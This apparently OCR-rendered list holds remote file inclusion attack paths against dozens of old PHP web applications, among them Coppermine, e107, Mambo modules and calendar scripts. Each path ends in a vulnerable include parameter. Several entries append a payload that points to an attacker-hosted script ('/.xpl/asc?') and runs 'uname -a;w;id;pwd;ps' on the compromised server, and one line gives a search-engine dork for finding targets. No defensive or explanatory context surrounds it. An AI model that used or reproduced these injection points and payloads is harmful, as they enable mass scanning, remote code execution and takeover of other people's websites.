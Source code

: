 /nphp/nphpd.php?nphp_config[LangFile]=
/include/db.php?GLOBALS[rootdp]=
/ashnews.php?pathtoashnews=
/ashheadlines.php?pathtoashnews=
/modules/xgallery/upgrade_album.php?GALLERY_BASEDIR=
/demo/includes/init.php?user_inc=
/jaf/index.php?show=
/inc/shows.inc.php?cutepath=
/poll/admin/common.inc.php?base_path=
/pollvote/pollvote.php?pollname=
/sources/post.php?fil_config=
/modules/My_eGallery/public/displayCategory.php?basepath=
/bb_lib/checkdb.inc.php?libpach=
/include/livre_include.php?no_connect=lol&chem_absolu=
/index.php?from_market=Y&pageurl=
/modules/mod_mainmenu.php?mosConfig_absolute_path=
/pivot/modules/module_db.php?pivot_path=
/modules/4nAlbum/public/displayCategory.php?basepath=
/derniers_commentaires.php?rep=
/modules/coppermine/themes/default/theme.php?THEME_DIR=
/modules/coppermine/include/init.inc.php?CPG_M_DIR=
/modules/coppermine/themes/coppercop/theme.php?THEME_DIR=
/coppermine/themes/maze/theme.php?THEME_DIR=
/allmylinks/include/footer.inc.php?_AMLconfig[cfg_serverpath]=
/allmylinks/include/info.inc.php?_AMVconfig[cfg_serverpath]=
/myPHPCalendar/admin.php?cal_dir=
/agendax/addevent.inc.php?agendax_path=
/modules/mod_mainmenu.php?mosConfig_absolute_path=
/modules/xoopsgallery/upgrade_album.php?GALLERY_BASEDIR=
/main.php?page=
/default.php?page=
/index.php?action=
/index1.php?p=
/index2.php?x=
/index2.php?content=
/index.php?conteudo=
/index.php?cat=
/include/new-visitor.inc.php?lvc_include_dir=
/modules/agendax/addevent.inc.php?agendax_path=
/shoutbox/expanded.php?conf=
/modules/xgallery/upgrade_album.php?GALLERY_BASEDIR=
/pivot/modules/module_db.php?pivot_path=
/library/editor/editor.php?root=
/library/lib.php?root=
/e107/e107_handlers/secure_img_render.php?p=
/zentrack/index.php?configFile=
/main.php?x=
/becommunity/community/index.php?pageurl=
/GradeMap/index.php?page=
/phpopenchat/contrib/yabbse/poc.php?sourcedir=/.xpl/asc?
&cmd=uname -a;w;id;pwd;ps
(http://www.google.com => intitle:PHPOpenChat exthp)
/calendar/calendar.php?serverPath=/.xpl/asc?&cmd=uname
-a;w;id;pwd;ps
/calendar/functions/popup.php?serverPath=/.xpl/asc?&cmd=uname
-a;w;id;pwd;ps
/calendar/events/header.inc.php?serverPath=/.xpl/asc?&cmd=uname
-a;w;id;pwd;ps
/calendar/events/datePicker.php?serverPath=/.xpl/asc?&cmd=uname
-a;w;id;pwd;ps
/calendar/setup/setupSQL.php?serverPath=/.xpl/asc?&cmd=uname
-a;w;id;pwd;ps
/calendar/setup/header.inc.php?serverPath=/.xpl/asc?&cmd=uname
-a;w;id;pwd;ps